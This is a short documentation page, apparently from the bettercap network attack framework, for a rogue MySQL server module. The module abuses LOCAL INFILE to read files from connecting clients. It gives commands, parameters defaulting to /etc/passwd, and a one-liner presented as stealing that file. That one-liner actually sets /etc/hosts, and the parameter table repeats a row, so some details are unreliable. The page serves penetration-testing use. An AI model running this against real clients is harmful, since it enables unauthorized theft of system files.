 ```yaml
---
title: "mysql.server (rogue)"
date: 2019-02-25T13:25:31+01:00
draft: false
weight: 4
---
```


A rogue MySQL server that can be used to exploit [LOCAL INFILE and read arbitrary files](/modules/ethernet/spoofers/) from the client.

### Commands

#### `mysql.server on`

Start mysql server.

#### `mysql.server off`

Stop mysql server.

### Parameters

| Parameter              | Default                                                                          | Description                                                                      |
| ---------------------- | -------------------------------------------------------------------------------- | -------------------------------------------------------------------------------- |
| `mysql.server.infile`  | `/etc/passwd`                                                                    | File you want to read. UNC paths are also supported.                             |
| `mysql.server.outfile` |                                                                                  | If filled, the INFILE buffer will be saved to this path instead of being logged. |
| `mysql.server.address` | `<interface address>`                                                            | Address to bind the mysql server to.                                             |
| `mysql.server.port`    | `3306`                                                                           | Port to bind the mysql server to.                                                |
| `mysql.server.outfile` | If filled, the INFILE buffer will be saved to this path instead of being logged. |

**Examples**

One liner to start the server and steal /etc/passwd from clients connecting to your Rogue MySQL server

    $ sudo bettercap -eval "set mysql.server.infile /etc/hosts; mysql.server on"

Now connect to your MySQL server and observe the file output on the Bettercap terminal

    $ mysql -u root -h 192.168.1.123 -pasdsasad --enable-local-infile
